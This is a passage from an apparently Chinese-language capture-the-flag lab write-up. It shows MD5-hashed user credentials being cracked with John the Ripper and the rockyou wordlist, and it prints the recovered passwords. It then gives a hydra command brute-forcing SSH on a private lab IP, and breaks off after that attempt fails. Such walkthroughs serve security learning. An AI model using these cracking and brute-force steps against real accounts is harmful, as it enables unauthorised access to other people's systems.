 ```
Tom:971dcf53e88e9268714d9d504753d347
Xavier:3005d829eb819341357bfddf541c175b
Sally:7a1c07ff60f9c07ffe8da34ecbf4edc2
test1:b7dfe9134c7a717a3b6eaf37bdc1ef7b
```

john爆破
用rockyou字典爆
`john --wordlist=rockyou.txt -form=raw-md5 user.txt`

秒出
```
Using default input encoding: UTF-8
Loaded 21 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
cherry           (Michael)
fantasy          (Sally)
12341234         (George)
passw0rd         (Barbara)
football123      (admin)
swanson          (Juan)
letmein!         (Jim)
thundercats      (Xavier)
123456!          (test1)
BobMarley        (Susan)
1website         (Sherry)
11g 0:00:00:00 DONE (2024-05-09 05:37) 12.22g/s 15937Kp/s 15937Kc/s 162468KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

然后就是这么多账密怎么用...
再登drupal界面就没啥用了
常规思路是登ssh
用hydra爆破一下ssh
`hydra 目标IP 协议 -l （用户名，-L用户名字典） -P（密码字典，p直接是密码）-V（过程）`

`hydra ssh://192.168.136.164/ -L user.txt -P pass.txt -V`

然而直接爆没爆出来

接下来就是脑洞大开...